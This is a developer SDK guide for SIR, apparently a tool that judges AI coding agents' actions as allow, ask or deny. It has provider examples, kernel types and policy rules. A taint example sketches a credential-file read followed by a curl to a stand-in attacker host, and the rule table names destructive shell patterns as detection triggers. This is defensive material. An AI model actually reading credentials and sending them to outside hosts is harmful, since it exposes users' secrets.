

# SDK Guide

SIR exposes three integration surfaces — pick the one that matches what you are building:

- **sir-core** -- the Rust decision kernel you can embed or call as a subprocess
- **pkg/kernel** -- the Go orchestration layer that owns stateful context, the ledger, and taint tracking
- **pkg/sdk / sdk/python** -- provider SDK helpers for writing signal, effect, policy, advisory, and export providers; runner coverage varies by language

Most people only need the provider SDK. Read that section and come back to the others when you need them.

---

## How the pieces fit together



The kernel is the only thing that decides allow / ask / deny. Providers feed it signals and carry out its effects. The Go orchestrator threads stateful context (prior taint, friction counts) into each evaluation so the kernel stays pure.

---

## The decision pipeline

Every evaluation travels the same pipeline:

```
signals
  -> normalize        (drop malformed, wrong schema)
  -> correlate        (group by session/turn/span)
  -> attribute        (confidence from reliability tier)
  -> enforceability   (enforces / detects / blind based on mode + evasion)
  -> label / taint    (credential_access, external_egress, shell_execution, ...)
  -> policy           (rule matching, cross-action taint check)
  -> verdict          (allow / ask / deny)
  -> decision class   (proceed_and_reconcile / block_and_wait / deny_now / record_post_hoc)
  -> effects          (record, block, prompt, nudge, ...)
  -> evidence         (ledger append)
```

---

## Which interface to use

| You want to... | Use |
|---|---|
| Write a signal or effect provider | `sdk/python/sir_sdk.py` or `pkg/sdk` |
| Embed the decision logic in a Go tool | `pkg/kernel.Evaluate()` |
| Call the kernel from any language | `sir-core-eval` subprocess |
| Use the kernel from Rust | `sir-core` crate |
| Debug a decision | `sir why`, `sir replay`, `sir kernel why` |

---

## Provider SDK: Python

The Python SDK is a single vendorable file with zero dependencies. Copy it into your project or add the `sdk/python` directory to your `PYTHONPATH`.

```bash
# Option 1: vendor a copy
cp sdk/python/sir_sdk.py my-provider/sir_sdk.py

# Option 2: set PYTHONPATH (done automatically by sir provider test)
export PYTHONPATH=sdk/python:$PYTHONPATH
```

Python 3.8 or later. No pip install required.

### Write a signal provider

```python
#!/usr/bin/env python3
import sir_sdk

PROVIDER_NAME = "my-shell-wrapper"
PROVIDER_VERSION = "0.1.0"

def caps():
    return sir_sdk.capabilities(
        PROVIDER_NAME,
        sir_sdk.KIND_SIGNAL,
        {
            "signal_reliability": [sir_sdk.RELIABILITY_DECLARED_INTENT],
            "timing": [sir_sdk.TIMING_PRE_EXEC],
        },
    )

def emit(event: dict):
    command = event.get("command", "")
    if not command:
        return None  # drop events we cannot handle

    return sir_sdk.make_signal(
        signal_id=f"shell-{hash(command) & 0xffffff:06x}",
        signal_time=event.get("signal_time", "1970-01-01T00:00:00Z"),
        source_kind="shell_wrapper",
        reliability=sir_sdk.RELIABILITY_DECLARED_INTENT,
        timing=sir_sdk.TIMING_PRE_EXEC,
        action_claim={
            "type": "shell_exec",
            "target": {"display": command, "sensitivity": "low"},
        },
        provider_name=PROVIDER_NAME,
        provider_version=PROVIDER_VERSION,
    )

sir_sdk.run_signal_provider(caps, emit)
```

### Write an effect provider

```python
#!/usr/bin/env python3
import sir_sdk

PROVIDER_NAME = "my-effect-provider"
PROVIDER_VERSION = "0.1.0"

def caps():
    return sir_sdk.capabilities(
        PROVIDER_NAME,
        sir_sdk.KIND_EFFECT,
        {
            "contain": True,
            "block": False,
            "record": True,
        },
    )

def handle_effect(req):
    effect_type = req.get("type", "")
    effect_id = req.get("effect_id", "")

    if effect_type == sir_sdk.EFFECT_CONTAIN:
        return sir_sdk.effect_applied(effect_id, "contained")

    if effect_type == sir_sdk.EFFECT_RECORD:
        return sir_sdk.effect_applied(effect_id, "recorded")

    return sir_sdk.effect_unavailable(
        effect_id,
        f"this provider does not support {effect_type}",
    )

sir_sdk.run_effect_provider(caps, handle_effect)
```

### Python SDK reference

**Constants:**

```python
# Schema versions
SCHEMA_SIGNAL_V0        = "sir.signal.v0"
SCHEMA_CAPABILITIES_V0  = "sir.capabilities.v0"
SCHEMA_EFFECT_REQ_V0    = "sir.effect_request.v0"
SCHEMA_EFFECT_RES_V0    = "sir.effect_result.v0"

# Reliability
RELIABILITY_DECLARED_INTENT    = "declared_intent"
RELIABILITY_MEDIATED_ACTION    = "mediated_action"
RELIABILITY_OBSERVED_RUNTIME   = "observed_runtime"
RELIABILITY_ENFORCED_BOUNDARY  = "enforced_boundary"
RELIABILITY_ADVISORY_SIGNAL    = "advisory_signal"
RELIABILITY_USER_DECISION      = "user_decision"
RELIABILITY_ADMIN_POLICY       = "admin_policy"

# Timing
TIMING_PRE_EXEC    = "pre_exec"
TIMING_DURING_EXEC = "during_exec"
TIMING_POST_EXEC   = "post_exec"
TIMING_UNKNOWN     = "unknown"

# Effect types
EFFECT_RECORD            = "record"
EFFECT_NUDGE             = "nudge"
EFFECT_REDACT            = "redact"
EFFECT_PROMPT            = "prompt"
EFFECT_BLOCK             = "block"
EFFECT_CONTAIN           = "contain"
EFFECT_EXPORT            = "export"
EFFECT_KILL_PROCESS      = "kill_process"
EFFECT_REQUEST_EXCEPTION = "request_exception"

# Effect status
STATUS_APPLIED       = "applied"
STATUS_UNAVAILABLE   = "unavailable"
STATUS_FAILED        = "failed"
STATUS_NOT_SUPPORTED = "not_supported"

# Provider kinds
KIND_SIGNAL   = "signal_provider"
KIND_EFFECT   = "effect_provider"
KIND_POLICY   = "policy_provider"
KIND_ADVISORY = "advisory_provider"
KIND_EXPORT   = "export_provider"
```

**Builder functions:**

```python
# Build a capabilities response
sir_sdk.capabilities(provider_name, kind, caps_dict) -> dict

# Build a sir.signal.v0 envelope
sir_sdk.make_signal(
    signal_id, signal_time, source_kind, reliability, timing,
    action_claim, provider_name="", provider_version="",
    session=None, actor_claim=None
) -> dict

# Build effect results
sir_sdk.effect_applied(effect_id, reason="") -> dict
sir_sdk.effect_unavailable(effect_id, reason) -> dict
sir_sdk.effect_not_supported(effect_id, reason) -> dict
sir_sdk.effect_failed(effect_id, reason) -> dict
```

**Runner functions:**

There is one runner per provider kind. Each responds to `{"op":"capabilities"}` with the caps dict, then dispatches the kind-specific message:

```python
# signal — forwards any source event to emit_func; expects a sir.signal.v0 back.
sir_sdk.run_signal_provider(caps_func, emit_func=None)

# effect — forwards each sir.effect_request.v0 to handle_effect_func.
sir_sdk.run_effect_provider(caps_func, handle_effect_func)

# policy — forwards each {"op":"evaluate", ...sir.policy_request.v0} to evaluate_func.
#          Return sir_sdk.policy_verdict(...) or None (allow).
sir_sdk.run_policy_provider(caps_func, evaluate_func)

# advisory — forwards each {"op":"assess", ...sir.advisory_request.v0} to assess_func.
#            Return sir_sdk.advisory_signal(...) or None (low risk).
sir_sdk.run_advisory_provider(caps_func, assess_func)
```

Response builders set `schema_version` and force `is_advisory: true` for you:

```python
sir_sdk.policy_verdict(provider, verdict, rules_matched=[...], reason="...")
sir_sdk.advisory_signal(provider, risk_level, reason="...", metadata={...})
sir_sdk.effect_applied(effect_id)        # also: effect_unavailable / effect_failed / effect_not_supported
sir_sdk.make_signal(signal_id, signal_time, source_kind, reliability, timing, action_claim, ...)
```

Verdict and risk constants: `VERDICT_ALLOW/ASK/DENY`, `RISK_LOW/MEDIUM/HIGH/CRITICAL`.

---

## Provider SDK: Go

The Go SDK lives at `pkg/sdk/`. Import it in your provider:

```go
import "github.com/somoore/sir/pkg/sdk"
```

### Write a signal provider

```go
package main

import (
    "fmt"
    "github.com/somoore/sir/pkg/sdk"
)

func main() {
    sdk.RunSignalProvider(
        func() sdk.CapabilitiesResponse {
            return sdk.NewCapabilitiesResponse(
                "my-go-provider",
                sdk.KindSignalProvider,
                map[string]any{
                    "signal_reliability": []string{sdk.ReliabilityDeclaredIntent},
                    "timing":             []string{sdk.TimingPreExec},
                },
            )
        },
        func(event map[string]any) *sdk.Signal {
            cmd, _ := event["command"].(string)
            if cmd == "" {
                return nil
            }
            return &sdk.Signal{
                SchemaVersion: sdk.SchemaSignalV0,
                SignalID:      fmt.Sprintf("go-%x", len(cmd)),
                SignalTime:    "2026-01-01T00:00:00Z",
                Source: sdk.Source{
                    Kind:        "my_go_provider",
                    Reliability: sdk.ReliabilityDeclaredIntent,
                    Timing:      sdk.TimingPreExec,
                    Provider:    "my-go-provider",
                },
                ActionClaim: map[string]any{
                    "type":   "shell_exec",
                    "target": map[string]any{"display": cmd, "sensitivity": "low"},
                },
            }
        },
    )
}
```

### Write an effect provider

```go
package main

import "github.com/somoore/sir/pkg/sdk"

func main() {
    sdk.RunEffectProvider(
        func() sdk.CapabilitiesResponse {
            return sdk.NewCapabilitiesResponse(
                "my-go-effect",
                sdk.KindEffectProvider,
                map[string]any{
                    "contain": true,
                    "record":  true,
                },
            )
        },
        func(req sdk.EffectRequest) sdk.EffectResult {
            switch req.Type {
            case sdk.EffectContain:
                return sdk.NewEffectResult(req.EffectID, sdk.EffectApplied, "contained")
            case sdk.EffectRecord:
                return sdk.NewEffectResult(req.EffectID, sdk.EffectApplied, "recorded")
            default:
                return sdk.NewEffectResult(req.EffectID, sdk.EffectNotSupported,
                    "unsupported: "+req.Type)
            }
        },
    )
}
```

### Go SDK reference

**Wire types:**

```go
// Signal is sir.signal.v0 -- the canonical unit emitted by a signal_provider.
type Signal struct {
    SchemaVersion string
    SignalID       string
    SignalTime     string
    Source         Source
    Session        *Session       // optional: trace_id, session_id, turn_id, span_id
    ActorClaim     *ActorClaim    // optional: kind, name, pid, process_tree
    ActionClaim    map[string]any // required: type, target.display, target.sensitivity
    Metadata       map[string]any
}

type Source struct {
    Kind            string
    Reliability     string
    Timing          string
    Provider        string
    ProviderVersion string
}

// EffectRequest is sir.effect_request.v0 -- SIR asks a provider to apply an effect.
type EffectRequest struct {
    SchemaVersion string
    EffectID      string
    Type          string
    Required      bool
    FailClosed    bool
    Target        map[string]any
}

// EffectResult is sir.effect_result.v0 -- a provider's response to an effect request.
type EffectResult struct {
    SchemaVersion string
    EffectID      string
    Status        string
    Reason        string
    Metadata      map[string]any
}

type CapabilitiesResponse struct {
    SchemaVersion string
    Provider      string
    Kind          string
    Capabilities  map[string]any
}
```

**Constants:**

```go
// Schema versions
SchemaSignalV0       = "sir.signal.v0"
SchemaCapabilitiesV0 = "sir.capabilities.v0"
SchemaEffectReqV0    = "sir.effect_request.v0"
SchemaEffectResV0    = "sir.effect_result.v0"
SchemaProviderV0     = "sir.provider.v0"

// Reliability
ReliabilityDeclaredIntent   = "declared_intent"
ReliabilityMediatedAction   = "mediated_action"
ReliabilityObservedRuntime  = "observed_runtime"
ReliabilityEnforcedBoundary = "enforced_boundary"
ReliabilityAdvisorySignal   = "advisory_signal"
ReliabilityUserDecision     = "user_decision"
ReliabilityAdminPolicy      = "admin_policy"

// Timing
TimingPreExec    = "pre_exec"
TimingDuringExec = "during_exec"
TimingPostExec   = "post_exec"
TimingUnknown    = "unknown"

// Effect types
EffectRecord           = "record"
EffectNudge            = "nudge"
EffectRedact           = "redact"
EffectPrompt           = "prompt"
EffectBlock            = "block"
EffectContain          = "contain"
EffectExport           = "export"
EffectKillProcess      = "kill_process"
EffectRequestException = "request_exception"

// Effect status
EffectApplied      = "applied"
EffectUnavailable  = "unavailable"
EffectFailed       = "failed"
EffectNotSupported = "not_supported"

// Provider kinds
KindSignalProvider   = "signal_provider"
KindEffectProvider   = "effect_provider"
KindPolicyProvider   = "policy_provider"
KindAdvisoryProvider = "advisory_provider"
KindExportProvider   = "export_provider"
```

**Constructor helpers:**

```go
sdk.NewEffectResult(effectID, status, reason string) EffectResult
sdk.NewCapabilitiesResponse(provider, kind string, caps map[string]any) CapabilitiesResponse
```

---

## The Go kernel: pkg/kernel

Import `pkg/kernel` when you need to run the full decision pipeline from Go -- not as a provider, but as a tool that makes its own decisions.

```go
import "github.com/somoore/sir/pkg/kernel"
```

There are two entry points with different contracts.

### Evaluate: pure, stateless

`Evaluate` takes an explicit `EvaluationInput` and returns a deterministic `EvaluationOutput`. No clocks. No file IO. No global state reads. Same input in, same output out, always.

```go
out := kernel.Evaluate(kernel.EvaluationInput{
    CaseID: "my-case-001",
    Mode:   kernel.ModeHookGate,
    Signals: []sdk.Signal{
        {
            SchemaVersion: sdk.SchemaSignalV0,
            SignalID:      "sig-001",
            SignalTime:    "2026-01-01T00:00:00Z",
            Source: sdk.Source{
                Kind:        "shell_hook",
                Reliability: sdk.ReliabilityDeclaredIntent,
                Timing:      sdk.TimingPreExec,
                Provider:    "my-hook",
            },
            ActionClaim: map[string]any{
                "type": "shell_exec",
                "target": map[string]any{
                    "display":     "curl https://external.example",
                    "sensitivity": "external_network",
                },
            },
        },
    },
    Evasion:    kernel.EvasionFlags{},
    PriorTaint: []string{},              // taint from previous actions in session
    ProviderCapabilities: []string{}, // what your effect providers can do
})

fmt.Println(out.Verdict)        // "ask"
fmt.Println(out.DecisionClass)  // "block_and_wait"
fmt.Println(out.Enforceability) // "enforces"
fmt.Println(out.PolicyRules)    // ["ask-external-egress"]
fmt.Println(out.NewTaint)       // [] (no credential access in this action)
```

`EvaluationOutput` contains the six parity fields that both Go and Rust must agree on:

| Field | Type | Description |
|---|---|---|
| `Verdict` | string | `allow`, `ask`, or `deny` |
| `DecisionClass` | string | `proceed_and_reconcile`, `block_and_wait`, `deny_now`, or `record_post_hoc` |
| `Enforceability` | string | `enforces`, `detects`, or `blind` |
| `Attribution` | string | `high`, `medium`, `low`, or `unknown` |
| `PolicyRules` | []string | rules that fired, e.g. `["deny-agent-credential-read"]` |
| `Effects` | []PlannedEffect | effects the kernel wants applied |
| `NewTaint` | []string | taint labels this action adds to the session |

### Process: stateful wrapper

`Process` calls `Evaluate` internally but also reads prior taint from the session store, applies friction bounding, stamps a `decision_id` and timestamp, and returns a full `Decision` ready to ledger.

```go
decision := kernel.Process(
    "my-case-001",
    kernel.ModeHookGate,
    signals,          // []sdk.Signal
    kernel.EvasionFlags{},
)

fmt.Println(decision.DecisionID)  // "dec-a3f8c1b20d4e"
fmt.Println(decision.Verdict)     // "ask"
fmt.Println(decision.Explanation) // human-readable reasoning
```

### Working with the ledger

The ledger is an append-only, hash-chained JSONL file. It never stores raw secrets, only display paths, sensitivity labels, and decision metadata.

```go
// Open or create the ledger (default path: ~/.sir/v2/ledger.jsonl)
ledger, err := kernel.OpenLedger(kernel.DefaultLedgerPath())
if err != nil {
    log.Fatal(err)
}

// Append a decision
if err := ledger.Append("my-case-001", decision); err != nil {
    log.Fatal(err)
}

// Read the most recent entry
entry, err := ledger.ReadLast()
if err != nil {
    log.Fatal(err)
}

// Format it for humans
fmt.Print(kernel.Explain(*entry))
```

`Explain` produces output like:

```
Decision:       ASK
Timestamp:      2026-01-01T00:00:00Z
Mode:           hook_gate
Case:           my-case-001

Action type:    shell_exec
Sensitivity:    external_network
Enforceability: enforces -- cooperative hooks only
Attribution:    medium

Policy rules triggered:
  ask-external-egress

Effects planned:
  prompt
  record (required)

SIR ASKED about this because:
  Policy rule 'ask-external-egress' matched.
  Target: curl https://external.example (sensitivity: external_network)
  Enforceability: enforces (cooperative pre-exec hook can gate)
```

### Kernel types

```go
type EvaluationInput struct {
    CaseID               string
    Mode                 string
    Signals              []sdk.Signal
    Evasion              EvasionFlags
    PriorTaint           []string        // taint from earlier turns in this session
    ProviderCapabilities []string // "contain", "block", etc.
}

type EvaluationOutput struct {
    Verdict        string
    DecisionClass  string
    Enforceability string
    Attribution    string
    PolicyRules    []string
    Effects        []PlannedEffect
    ActionType     string
    Sensitivity    string
    NewTaint       []string
}

type Decision struct {
    DecisionID     string
    Timestamp      string
    Mode           string
    Verdict        string
    DecisionClass  string
    PolicyRules    []string
    Effects        []PlannedEffect
    Enforceability string
    Attribution    string
    ActionType     string
    Sensitivity    string
    Explanation    string
}

type EvasionFlags struct {
    SpanStripped          bool
    SpanForged            bool
    DetachedChild         bool
    HookMissing           bool
    RequiredEffectUnavail bool
    FailClosed            bool
}

type PlannedEffect struct {
    Type       string
    Required   bool
    FailClosed bool
}
```

**Mode constants:**

```go
ModeObserve    = "observe"
ModeAdvise     = "advise"
ModeHookGate   = "hook_gate"
ModeOSObserved = "os_observed"
ModeMediated   = "mediated"
ModeContained  = "contained"
ModeManaged    = "managed"
```

**Enforceability and verdict constants:**

```go
ClassEnforces = "enforces"
ClassDetects  = "detects"
ClassBlind    = "blind"

VerdictAllow = "allow"
VerdictAsk   = "ask"
VerdictDeny  = "deny"

DecisionClassProceedAndReconcile = "proceed_and_reconcile"
DecisionClassBlockAndWait        = "block_and_wait"
DecisionClassDenyNow             = "deny_now"
DecisionClassRecordPostHoc       = "record_post_hoc"
```

---

## The Rust kernel: sir-core

`sir-core` is the reference implementation of the decision kernel. It is a pure Rust crate: no filesystem access, no network access, no shell execution, no global state, no external crate dependencies, no unsafe code.

The single public entrypoint is:

```rust
pub fn evaluate(input: &EvaluationInput) -> EvaluationOutput
```

It is deterministic. Given the same `EvaluationInput`, it will always produce the same `EvaluationOutput`. The Go orchestrator owns decision IDs, timestamps, ledger writes, the taint store, friction counters, and provider supervision. None of that lives in `sir-core`.

### Key types

```rust
pub struct EvaluationInput {
    pub case_id: String,
    pub mode: String,           // one of the modes::* constants
    pub signals: Vec<Signal>,
    pub evasion: EvasionFlags,
    // Stateful context threaded in by the orchestrator:
    pub prior_taint: Vec<String>,           // taint from earlier turns
    pub provider_capabilities: Vec<String>, // what effect providers can do
}

pub struct EvaluationOutput {
    pub verdict: String,         // verdicts::ALLOW / ASK / DENY
    pub decision_class: String,  // decision_classes::*
    pub enforceability: String,  // classes::ENFORCES / DETECTS / BLIND
    pub attribution: String,     // conf::HIGH / MEDIUM / LOW / UNKNOWN
    pub policy_rules: Vec<String>,
    pub effects: Vec<PlannedEffect>,
    pub action_type: String,
    pub sensitivity: String,
    pub new_taint: Vec<String>,  // taint this action produces
}

pub struct Signal {
    pub source: SignalSource,
    pub action_claim: ActionClaim,
    pub actor_kind: String,
}

pub struct SignalSource {
    pub reliability: String,
    pub timing: String,
}

pub struct ActionClaim {
    pub action_type: String,
    pub target: ActionTarget,
}

pub struct ActionTarget {
    pub display: String,
    pub sensitivity: String,
}

pub struct EvasionFlags {
    pub span_stripped: bool,
    pub span_forged: bool,
    pub detached_child: bool,
    pub hook_missing: bool,
    pub required_effect_unavail: bool,
    pub fail_closed: bool,
}

pub struct PlannedEffect {
    pub effect_type: String,
    pub required: bool,
    pub fail_closed: bool,
}
```

### Constant modules

```rust
// Protection modes
pub mod modes {
    pub const OBSERVE:      &str = "observe";
    pub const ADVISE:       &str = "advise";
    pub const HOOK_GATE:    &str = "hook_gate";
    pub const OS_OBSERVED:  &str = "os_observed";
    pub const MEDIATED:     &str = "mediated";
    pub const CONTAINED:    &str = "contained";
    pub const MANAGED:      &str = "managed";
}

// Enforceability classes
pub mod classes {
    pub const ENFORCES: &str = "enforces";
    pub const DETECTS:  &str = "detects";
    pub const BLIND:    &str = "blind";
}

// Verdicts
pub mod verdicts {
    pub const ALLOW: &str = "allow";
    pub const ASK:   &str = "ask";
    pub const DENY:  &str = "deny";
}

// Attribution confidence
pub mod conf {
    pub const HIGH:    &str = "high";
    pub const MEDIUM:  &str = "medium";
    pub const LOW:     &str = "low";
    pub const UNKNOWN: &str = "unknown";
}

// Decision classes
pub mod decision_classes {
    pub const PROCEED_AND_RECONCILE: &str = "proceed_and_reconcile";
    pub const BLOCK_AND_WAIT:        &str = "block_and_wait";
    pub const DENY_NOW:              &str = "deny_now";
    pub const RECORD_POST_HOC:       &str = "record_post_hoc";
}

// Signal reliability tiers
pub mod reliability {
    pub const DECLARED_INTENT:   &str = "declared_intent";
    pub const MEDIATED_ACTION:   &str = "mediated_action";
    pub const OBSERVED_RUNTIME:  &str = "observed_runtime";
    pub const ENFORCED_BOUNDARY: &str = "enforced_boundary";
    pub const ADVISORY_SIGNAL:   &str = "advisory_signal";
    pub const USER_DECISION:     &str = "user_decision";
    pub const ADMIN_POLICY:      &str = "admin_policy";
}

// Signal timing
pub mod timing {
    pub const PRE_EXEC:    &str = "pre_exec";
    pub const DURING_EXEC: &str = "during_exec";
    pub const POST_EXEC:   &str = "post_exec";
    pub const UNKNOWN:     &str = "unknown";
}

// Effect types
pub mod effects {
    pub const RECORD: &str = "record";
    pub const BLOCK:  &str = "block";
    pub const PROMPT: &str = "prompt";
    pub const NUDGE:  &str = "nudge";
}
```

### Example: calling evaluate() from Rust

```rust
use sir_core::{evaluate, EvaluationInput, EvasionFlags, Signal, SignalSource, ActionClaim, ActionTarget};
use sir_core::{modes, reliability, timing};

fn main() {
    let input = EvaluationInput {
        case_id: "test-001".into(),
        mode: modes::HOOK_GATE.into(),
        signals: vec![Signal {
            source: SignalSource {
                reliability: reliability::DECLARED_INTENT.into(),
                timing: timing::PRE_EXEC.into(),
            },
            action_claim: ActionClaim {
                action_type: "network_connect".into(),
                target: ActionTarget {
                    display: "https://external.example".into(),
                    sensitivity: "external_network".into(),
                },
            },
            actor_kind: "ai_coding_agent".into(),
        }],
        evasion: EvasionFlags::default(),
        prior_taint: vec![],
        provider_capabilities: vec![],
    };

    let out = evaluate(&input);
    println!("verdict: {}", out.verdict);          // "ask"
    println!("class:   {}", out.decision_class);   // "block_and_wait"
    println!("enf:     {}", out.enforceability);   // "enforces"
}
```

### Cross-action taint: how it works

One of the more important behaviors to understand is cross-action taint. When the kernel evaluates a credential read, it returns `"credential_access"` in `new_taint`. The Go orchestrator stores that in its taint store. On the next evaluation in the same session, the orchestrator threads `prior_taint: ["credential_access"]` into `EvaluationInput`. If that next action involves external egress, the kernel's `deny-secret-to-egress` rule fires even though neither action was flagged alone.

```rust
// Turn 1: credential read
let out1 = evaluate(&EvaluationInput {
    mode: modes::CONTAINED.into(),
    signals: vec![/* ~/.aws/credentials read */],
    prior_taint: vec![], // nothing yet
    ..Default::default()
});
// out1.verdict = "deny" (deny-agent-credential-read fired)
// out1.new_taint = ["credential_access"]

// Turn 2: external egress -- orchestrator passes prior taint in
let out2 = evaluate(&EvaluationInput {
    mode: modes::HOOK_GATE.into(),
    signals: vec![/* curl https://attacker.example */],
    prior_taint: vec!["credential_access".into()], // passed by orchestrator
    ..Default::default()
});
// out2.verdict = "deny" (deny-secret-to-egress fired via cross-action check)
```

---

## sir-core-eval: the subprocess bridge

If you need to call the decision kernel from a language other than Rust or Go, use `sir-core-eval`. It wraps `evaluate()` in a newline-delimited JSON-in / JSON-out subprocess interface.

```
stdin  -> one JSON object per line
stdout -> one JSON object per line (matching positions)
stderr -> error messages
exit   -> 0 on success, 1 on parse or IO error
```

### Input format

```json
{
  "case_id": "my-case-001",
  "mode": "hook_gate",
  "signals": [
    {
      "source": {
        "reliability": "declared_intent",
        "timing": "pre_exec"
      },
      "action_claim": {
        "type": "network_connect",
        "target": {
          "display": "https://external.example",
          "sensitivity": "external_network"
        }
      },
      "actor_claim": {
        "kind": "ai_coding_agent"
      }
    }
  ],
  "evasion_flags": {
    "span_stripped": false,
    "span_forged": false,
    "detached_child": false,
    "hook_missing": false,
    "required_effect_unavailable": false,
    "fail_closed": false
  },
  "prior_taint": [],
  "provider_capabilities": []
}
```

### Output format

```json
{
  "verdict": "ask",
  "decision_class": "block_and_wait",
  "enforceability": "enforces",
  "attribution": "medium",
  "policy_rules": ["ask-external-egress"],
  "effects": [
    {"type": "prompt", "required": false, "fail_closed": false},
    {"type": "record", "required": true,  "fail_closed": false}
  ],
  "action_type": "network_connect",
  "sensitivity": "external_network",
  "new_taint": []
}
```

### Calling it from the shell

```bash
echo '{"case_id":"t1","mode":"hook_gate","signals":[{"source":{"reliability":"declared_intent","timing":"pre_exec"},"action_claim":{"type":"network_connect","target":{"display":"https://example.com","sensitivity":"external_network"}},"actor_claim":{"kind":"ai_coding_agent"}}],"evasion_flags":{},"prior_taint":[],"provider_capabilities":[]}' \
  | sir-core-eval
```

### Calling it from Python

```python
import subprocess, json

proc = subprocess.Popen(
    ["sir-core-eval"],
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
)

payload = {
    "case_id": "py-001",
    "mode": "hook_gate",
    "signals": [{
        "source": {"reliability": "declared_intent", "timing": "pre_exec"},
        "action_claim": {
            "type": "network_connect",
            "target": {"display": "https://external.example", "sensitivity": "external_network"},
        },
        "actor_claim": {"kind": "ai_coding_agent"},
    }],
    "evasion_flags": {},
    "prior_taint": [],
    "provider_capabilities": [],
}

line = json.dumps(payload).encode() + b"\n"
stdout, _ = proc.communicate(line)
result = json.loads(stdout)
print(result["verdict"])   # "ask"
```

---

## Validating and testing providers

SIR ships harness commands to validate providers against fixture cases.

```bash
# Validate your provider manifest
sir provider validate path/to/provider.yaml

# Run your provider against fixtures
sir provider test path/to/provider.yaml

# Check provider health
sir provider health

# Generate a new provider scaffold
sir provider scaffold --name my-provider --kind signal_provider --lang python
```

To run the full harness parity suite across Go and Rust:

```bash
sir harness run --engine both
```

This runs the fixture cases (currently 37) and confirms that Go and Rust agree on all six parity fields for each one. If parity breaks, the harness tells you exactly which case diverged and which fields disagreed.

---

## Quick reference: policies that fire

These are the built-in policy rules and what triggers them:

| Rule | Verdict | Trigger |
|---|---|---|
| `deny-agent-credential-read` | deny | AI agent actor reads a credential target |
| `deny-secret-to-egress` | deny | Credential taint (same-action or prior) plus external egress |
| `deny-sir-config-tamper` | deny | Write to `.claude/settings`, `sir.yaml`, `.sir/`, `sir-posture` |
| `ask-external-egress` | ask | Any action with `external_network` sensitivity |
| `ask-dangerous-shell` | ask | Shell execution with patterns like `rm -rf`, `chmod 777`, `dd if=` |
| `ask-new-mcp-server` | ask | New MCP server detected |
| `ask-cicd-edit` | ask | Write to `.github/workflows`, `Jenkinsfile`, `.circleci`, etc. |
| `low-confidence-escalation` | escalates allow to ask | Low/unknown attribution on credential or high-sensitivity target |

---

## Related docs

- [providers.md](providers.md) -- full provider authoring guide, all five kinds
- [policy.md](policy.md) -- policy rules, custom policy providers
- [architecture.md](architecture.md) -- system-level design
- [getting-started.md](getting-started.md) -- install and first run
